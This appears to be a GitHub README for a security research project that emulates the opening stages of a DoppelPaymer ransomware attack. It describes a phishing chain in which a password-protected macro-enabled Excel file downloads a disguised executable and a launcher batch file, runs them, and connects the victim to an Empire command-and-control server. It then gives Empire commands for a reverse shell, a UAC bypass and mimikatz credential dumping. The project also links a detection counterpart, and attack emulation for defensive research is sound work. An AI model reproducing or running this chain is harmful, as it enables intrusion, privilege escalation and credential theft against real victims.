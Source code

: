 # Attack Emulation of the Fore Part of Doppelpaymer Attack Chain
## Second Part of this Project
* https://github.com/chieh0613/Log-based-Anomaly-Detection-and-Tracing-back-to-Phishing-Emails

## Introduction
    An APT attack consists of various tactics, including initial access, credential access, and command and control.
    DoppelPaymer is a ransomware that have launched their attacks since 2019, threatening victims after stealing their files.
    We try to reproduce the attack scenario based on the fore part of Doppelpaymer attack chain.

## Victim's OS and requiremnts
* Edition: Windows 10 Home
* Version: 2004
* Microsoft Office
* 7-zip/WinRAR
* Windows Defender disabled

## Attacker's OS and requirements
* Kali Linux
* Empire


## Unzip
    In the folder unzip, we try to generate an executable file "unzip.exe" to extract file from "launcher.zip" with the password "123".
* Type "python run.py" to generate the file "unzip.exe".
* Requirements:
  - python==3.8.8
  - pyinstaller==4.3 

## Unzip.txt
    Because we cannot download the executable file directly, we change the file extension from .exe to .txt.
    After the modication, we can use macro to download the file directly by a given link.

## launcher.zip
    Contains the file "launcher.bat" with the password "123". 
    After executing the file "launcher.bat", the victim will connect to the empire server.

## project.xlsm
    It is a macro enabled excel document.
    The followings are what it will do:
    - Download the file "launcher.zip" to %temp% folder
    - Download the file "unzip.exe" to %temp% folder
    - Execute the file "unzip.exe" to get the file "launcher.bat"
    - Execute the file "launcher.bat" to connect to the empire server

## project.zip
    Contains project.xlsm with password '123'. 

## Empire Commands
* Generate the file "launcher.bat" to let the victim connect to the empire server:
    1. Use "uselistener http" to generate listener
        - set Name http
        - set Host 192.168.2.30 (attacker's ip)
        - set Port 8080
        - execute
    2. Use "usestager windows/launcher_bat" to generate the file "launcher.bat"
        - set Listener http
        - execute

* After the victim connects to the empire server, run the following commands:
    1. type "agents" to find the value of victim's Name (<victim_Name>)
    2. type "interact <victim_Name>"
    3. Reverse shell
        - shell tasklist
        - shell netstat
        - shell ipconfig
    4. Use "usemodule privesec/bypassuac" to get administrator privilege
        - set Listener http
        - execute
    5. Use "usemodule credentials/mimikatz/logonpasswords*" to get the victim's NTLM hash
        - execute

# Reference
* https://github.com/mishmashclone/BC-SECURITY-Empire
* https://null-byte.wonderhowto.com/how-to/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts-0178664/
* https://ethicalhackingguru.com/how-to-use-powershell-empire-3-the-powershell-empire-3-tutorial/
* https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf
* https://stackoverflow.com/questions/6934169/how-to-show-current-user-name-in-a-cell
* https://vblocalhost.com/uploads/VB2020-61.pdf
* https://github.com/DarkSecDevelopers/shellpy.git

